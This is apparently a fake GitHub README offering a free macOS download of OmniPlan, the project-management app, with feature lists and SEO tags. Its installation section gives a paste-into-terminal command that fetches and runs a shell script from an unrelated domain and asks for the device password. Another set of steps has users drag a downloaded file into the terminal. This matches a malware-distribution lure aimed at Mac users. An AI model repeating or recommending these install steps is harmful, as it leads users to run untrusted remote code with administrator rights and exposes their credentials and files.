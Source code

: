 # 📊 OmniPlan — Professional Project Management Software for macOS

**OmniPlan** is a comprehensive project management app designed specifically for macOS. It helps professionals plan, track, and manage complex projects with intuitive tools, seamless collaboration, and deep macOS integration. Perfect for project managers, teams, and anyone who wants clear control over their workflows.

---

## ✅ Download OmniPlan for macOS  
[![Download OmniPlan](https://img.shields.io/badge/Download-OmniPlan-blueviolet)](https://task-office-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is OmniPlan?

OmniPlan is a powerful project planning and scheduling app from The Omni Group. It allows users to create detailed project plans, assign resources, track progress, and identify bottlenecks. With features like Gantt charts, critical path visualization, and collaboration tools, OmniPlan makes managing projects more efficient and transparent.

---

## ✨ Features

- 📅 Visual Gantt charts and project timelines  
- 👥 Resource management and task assignments  
- 🔄 Real-time collaboration and syncing across devices  
- 📈 Critical path analysis and project forecasting  
- ⏱️ Time tracking and milestone tracking  
- 🖥️ Native macOS and iOS support with Apple Silicon optimization  
- 🔔 Notifications and alerts for deadlines and changes  
- 🛠️ Integration with Calendar, Reminders, and other macOS apps  
- 📊 Export to PDF, CSV, Microsoft Project formats  

---

## 💡 Why Use OmniPlan?

- ✅ Gain clear visibility into complex projects and timelines  
- 🤝 Collaborate efficiently with team members and stakeholders  
- 🗂️ Manage resources and workloads smartly  
- 📈 Predict and resolve project risks before they impact delivery  
- 🎯 Ideal for project managers, freelancers, and teams of all sizes  

---

[![Download OmniPlan](https://img.shields.io/badge/Download-OmniPlan-blueviolet)](https://omniplan-mac-download.github.io/.github)

---

## 🖼️ Preview

![OmniPlan Screenshot 1](https://www.omnigroup.com/assets/img/app/plan-4/op-mac-header.png)  
![OmniPlan Screenshot 2](https://support.omnigroup.com/doc-assets/OmniPlan-Mac/OmniPlan-Mac-v3.0.0.1/en/EPUB/art/op3mac_ch02_02_taskview.png)

---

## 📌 Tags

omniplan, omniplan software, omniplan 4, omniplan4, omniplan for mac, omniplan project management,  
omniplan for windows, omniplan pricing, omniplan 3, omniplan online, omniplan web, omniplan download,  
omni plan 4, omnifocus omniplan, omniplan 2, omniplan 3 download, omniplan app, omniplan cost,  
omniplan discount, omniplan ios, omniplan ipad, omniplan training, omniplan mac, omniplan mac download
